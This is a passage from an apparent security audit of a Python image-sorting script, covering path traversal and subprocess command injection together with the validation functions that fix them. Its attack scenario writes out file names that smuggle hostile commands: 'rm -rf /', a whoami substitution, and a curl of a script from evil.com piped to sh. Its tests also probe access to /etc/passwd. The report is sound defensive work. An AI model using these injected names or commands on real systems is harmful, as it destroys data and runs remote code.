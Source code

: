 **Test Results:**
```python
✓ safe_join("/safe", "file.jpg")              → "/safe/file.jpg" (allowed)
✓ safe_join("/safe", "sub/file.jpg")          → "/safe/sub/file.jpg" (allowed)
✗ safe_join("/safe", "../../../etc/passwd")   → ValueError (blocked)
✗ safe_join("/safe", "/etc/passwd")           → ValueError (blocked)
```

**Files Modified:**
- `find_bad_images.py:749-783` - Added `safe_join_path()` function
- `find_bad_images.py:1007-1013` - Used in file move operations

**References:**
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

---

### 3. Command Injection via Subprocess (CWE-78)

**Severity:** 🟠 MEDIUM-HIGH (CVSS 7.0)

**Issue:**
The application calls external tools (`exiftool`, `identify`) via subprocess with user-controlled file paths. Special characters in filenames could potentially be exploited.

**Attack Scenario:**
```bash
# Attacker creates file with malicious name
touch "image.jpg; rm -rf /"
touch "image\`whoami\`.jpg"
touch "image\$(curl evil.com/malware.sh | sh).jpg"

# If processed with external tools, commands could execute
```

**Fix:**
Added `validate_subprocess_path()` that validates paths before subprocess calls:

```python
def validate_subprocess_path(file_path):
    """Validate file path before passing to subprocess."""

    # Must be absolute path
    if not os.path.isabs(file_path):
        raise ValueError("Path must be absolute")

    # Block shell metacharacters
    dangerous_chars = ['`', '$', '&', '|', ';', '>', '<', '\n', '\r', '(', ')']
    for char in dangerous_chars:
        if char in file_path:
            raise ValueError(f"Dangerous character '{char}' found")

    # Block path traversal
    if '..' in file_path:
        raise ValueError("Path traversal detected")

    # Block null bytes
    if '\x00' in file_path:
        raise ValueError("Null byte detected")

    return True
```
